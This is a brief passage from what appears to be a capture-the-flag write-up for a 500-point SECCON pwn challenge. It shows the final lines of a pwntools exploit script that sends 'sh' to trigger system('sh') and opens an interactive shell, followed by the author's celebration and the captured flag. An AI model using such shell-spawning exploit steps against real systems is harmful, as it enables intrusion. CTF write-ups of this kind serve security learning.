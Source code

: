 ```python exp_chat.py
    r.sendlineafter(">> ", "sh\x00") # strchr("sh", 10) --> system("sh")

    r.interactive()

```

First time solving a 500 points pwn challenge ! WOOHOO ! 

flag: `SECCON{51mpl3_ch47_l1k3_7w1*73*}`
